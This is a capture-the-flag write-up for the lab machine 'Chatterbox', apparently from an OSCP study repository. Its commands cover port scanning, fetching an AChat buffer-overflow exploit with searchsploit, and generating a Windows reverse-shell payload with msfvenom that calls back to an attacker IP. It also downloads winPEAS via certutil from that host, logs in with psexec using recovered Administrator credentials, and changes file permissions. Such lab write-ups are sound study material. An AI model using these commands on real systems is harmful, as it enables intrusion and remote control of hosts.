 ## Chatterbox

Difficulty: Medium

### User Flag

```
rustscan -a 10.10.10.74 --ulimit 5000 -- -A -sV -sC
```

![rustscan](https://github.com/b1d0ws/OSCP/assets/58514930/6fcef23b-e86b-4172-8074-bbae1277d8b6)

![nmap](https://github.com/b1d0ws/OSCP/assets/58514930/3f2b287b-d026-4104-9142-1d3a0097c5ff)

<br>

On port 9255 and 9256 there is AChat Chat System. Searching por exploit, we find one.

```
searchsploit achat
searchsploit -m windows/remote/36025.py
```

![searchsploit](https://github.com/b1d0ws/OSCP/assets/58514930/b966f33a-5172-4fdb-b22a-e4e6921d54a7)

![exploit](https://github.com/b1d0ws/OSCP/assets/58514930/a962d0d4-fefb-49e9-a70b-9769d7788f78)

<br>

The exploit has a buffer that executes calc.exe. We need to generate a reverse shell buffer payload and replace it.

```
msfvenom -a x86 --platform Windows -p windows/shell_reverse_tcp lhost=10.10.14.21 lport=4444 -e x86/unicode_mixed -b '\x00\x80\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff' BufferRegister=EAX -f python

python2 36025.py
```

![generatingBuffer](https://github.com/b1d0ws/OSCP/assets/58514930/6e6255a2-d246-4b69-8eef-03f132fd5946)

![firstRevShell](https://github.com/b1d0ws/OSCP/assets/58514930/95c67245-0b65-4280-9953-dff9a819f5eb)

### Root Flag

Executing winPEAS, we find Autologon credentials

```
certutil -urlcache -f http://10.10.14.21/winPEASx86.exe winPEASx86.exe
.\winPEASx86.exe
```

![winPEAS](https://github.com/b1d0ws/OSCP/assets/58514930/4f08e1ed-5aa5-4415-a8b3-72c6f966e81a)

<br>

This password works for Administrator user, so we can login with psexec.

```
impacket-psexec Administrator:Welcome1\!@10.10.10.74
```
![administrator](https://github.com/b1d0ws/OSCP/assets/58514930/20efc9ee-8464-424b-bacf-8d1a5b8395a1)

<br>

As you see, Administrator doesn't have access to read the flag. For some reason, we can change this permission with Alfred user.

```
icacls root.txt /grant everyone:R
```

![rootFlag](https://github.com/b1d0ws/OSCP/assets/58514930/d28b5285-13a5-4add-8c18-441f3f1e9446)
